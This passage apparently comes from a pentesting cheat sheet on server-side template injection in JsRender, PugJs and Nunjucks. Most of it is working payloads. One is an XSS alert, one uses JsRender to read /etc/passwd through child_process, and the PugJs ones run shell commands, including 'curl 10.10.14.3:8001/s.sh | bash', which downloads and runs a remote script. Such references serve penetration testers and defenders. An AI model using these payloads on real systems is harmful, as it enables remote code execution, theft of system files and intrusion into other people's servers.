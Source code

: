 - = 49
    

**Client Side**



```
{{:%22test%22.toString.constructor.call({},%22alert(%27xss%27)%22)()}}
```

**Server Side**



```
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```

**More information**

- [https://appcheck-ng.com/template-injection-jsrender-jsviews/](https://appcheck-ng.com/template-injection-jsrender-jsviews/)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs)

PugJs (NodeJS)

- `#{7*7} = 49`
    
- `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}`
    
- `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.3:8001/s.sh | bash')}()}`
    

**Example server side render**



```
var pugjs = require('pug');
home = pugjs.render(injected_page)
```

**More information**

- [https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/](https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks)

NUNJUCKS (NodeJS)

- {{7*7}} = 49
    
- {{foo}} = No output
    
- #{7*7} = #{7*7}
    